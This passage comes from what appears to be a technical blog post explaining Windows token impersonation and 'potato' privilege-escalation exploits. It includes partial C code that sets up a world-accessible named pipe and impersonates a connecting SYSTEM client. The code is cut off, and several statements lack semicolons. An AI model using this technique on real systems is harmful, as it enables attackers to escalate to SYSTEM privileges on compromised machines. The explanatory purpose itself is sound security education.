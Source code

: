 This results in a shell with the same security context as the process of which we duplicated the token:

![](/list.png)

So far so good, but what if we do not have a privileged account?

### Token Impersonation and Potato Exploits

Remember when I talked about impersonation tokens earlier? A process can impersonate another processes token, when the `SeImpersonatePrivilege` is enabled. You know what happens next if you see that privilege enabled on a compromised account: whip out a potato and get `SYSTEM`. But what is actually happening there?

Turns out that a named pipe server can impersonate any client that connects to its named pipe, when `SeImpersonatePrivilege` is enabled. This is what the windows api [`ImpersonateNamedPipeClient`](https://learn.microsoft.com/en-us/windows/win32/api/namedpipeapi/nf-namedpipeapi-impersonatenamedpipeclient) is for. Basically, all the potato exploits rely upon tricking a `SYSTEM` process into connecting to a named pipe controlled by the compromised account to then impersonate the connection. What differs mostly, is the way that authentication is triggered. For an awesome overview, check out [this great blog post](https://jlajara.gitlab.io/Potatoes_Windows_Privesc) by Jorge Lajara.

The implementation of impersonation of a named pipe itself is simple. As above, error handling is removed here for brevity:

```c
SECURITY_ATTRIBUTES sa;
STARTUPINFOW si;
PROCESS_INFORMATION pi;
char buffer[256] = { 0 };
DWORD dwRead = 0;
DWORD bytesToRead = 1;
LPWSTR pipeName = L"\\\\.\\pipe\\spoolss"; // this pipe needs to be renamed, depending on the coercion method used

// setup named pipe
InitializeSecurityDescriptor(&sa, SECURITY_DESCRIPTOR_REVISION)
ConvertStringSecurityDescriptorToSecurityDescriptor(L"D:(A;OICI;GA;;;WD)", SDDL_REVISION_1, &((&sa)->lpSecurityDescriptor), NULL)
HANDLE hPipe = CreateNamedPipeW(pipeName, PIPE_ACCESS_DUPLEX, PIPE_TYPE_BYTE | PIPE_READMODE_BYTE | PIPE_WAIT, PIPE_UNLIMITED_INSTANCES, 256 * sizeof(char), 256 * sizeof(char), NMPWAIT_USE_DEFAULT_WAIT, &sa);

// wait for the connection
if (ConnectNamedPipe(hPipe, NULL)) {
    printf("[*] Got connection!\n");

    // read from pipe and impersonate client
    PeekNamedPipe(hPipe, &buffer, (256-1) * sizeof(char), &dwRead, &bytesToRead, NULL)
    ImpersonateNamedPipeClient(hPipe)

```
